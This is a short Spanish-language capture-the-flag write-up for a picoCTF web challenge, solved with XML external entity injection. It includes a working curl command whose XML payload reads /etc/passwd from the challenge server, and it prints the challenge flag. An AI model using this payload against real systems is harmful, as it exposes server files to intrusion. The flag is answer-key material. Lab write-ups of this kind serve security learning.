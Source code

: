 #Software #Hacking #WebExplotation #Web #Internet 
# Definición
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:61670/)
# Hints
- [[XML]] external entity Injection
# Solución
Iniciamos inspeccionando la página, y vemos los request que se generan con las peticiones.
Y al estar manejando XML, vemos la pestaña de red.

Nos apoyamos de FOXY PROXY y BURP para realizar un ataque de [[payloads]].

Enviamos la respuesta modificada empleando un [[CURL]]
```bash
curl -X POST "http://saturn.picoctf.net:60543/data" -H "Content-Type: application/xml" --data-binary @- <<EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<data>
    <ID>&xxe;</ID>
</data>
EOF
```
## Respuesta
picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}